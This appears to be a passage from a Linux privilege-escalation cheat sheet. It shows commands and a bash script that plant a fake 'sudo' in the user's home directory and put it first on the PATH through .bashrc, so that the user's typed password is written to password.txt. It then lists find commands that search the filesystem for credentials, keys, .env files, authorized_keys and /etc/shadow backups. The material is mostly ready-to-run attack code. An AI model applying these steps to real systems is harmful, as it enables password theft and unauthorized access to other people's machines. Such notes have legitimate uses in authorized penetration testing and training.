 If some command is executed in processes as our current user, we can override the command to our arbitrary command.  
Assume **`sudo cat /etc/shadow`** command is executed in the process.  
**`sudo`** command asks the password of the current user. So if we don't have the current user's password yet, worth getting the password.

To do so, we can create the fake **`sudo`** command under the current user’s home directory.

```bash
mkdir /home/<user>/bin
touch /home/<user>/bin/sudo
chmod +x /home/<user>/bin/sudo
```

Then insert a payload in **`/home/<user>/bin/sudo`**.  
This **`sudo`** command reads the value of the password in prompt and write the value to **“password.txt”**.

```bash
#!/bin/bash

read password
echo $password >> /home/<user>/password.txt
```

In addition, we need to export the **`/home/<user>/bin`** to the PATH on the top of the **`/home/<user>/.bashrc`**.

```bash
export PATH=/home/<user>/bin:$PATH
```

Wait a while, we should see the **“password.txt”** is created.

```bash
cat password.txt
```

Now we get the current user password.

<br />

## Sensitive Files with Given Keywords

The **"find"** command searches files in the real system.

```sh
find / -name "*.txt" 2>/dev/null
find /opt -name "*.txt" 2>/dev/null
find / -name "authorized_keys" 2>/dev/null
find / -name "users" 2>/dev/null
find / -name "*user*" 2>/dev/null
find / -name "secret.key" -or -name "secret" 2>/dev/null
find / -name "credential*.txt" 2>/dev/null
find / -name "*secret*" -or -name "*credential*" 2>/dev/null
find / -name "*root*" -or -name "*password*" 2>/dev/null
find / -name "*.key" -or -name "*.db" 2>/dev/null
find / -name "*data*" 2>/dev/null
find / -name ".env" 2>/dev/null
find / -name "*flag*" 2>/dev/null

# Backup files may contain sensitive information
find / -name "*backup*" 2>/dev/null
find / -name "*.bak*" 2>/dev/null
find / -name "*.old" 2>/dev/null

# Backup files for /etc/shadow.
# ex. /var/shadow.bak
find / -name *shadow* 2>/dev/null
```
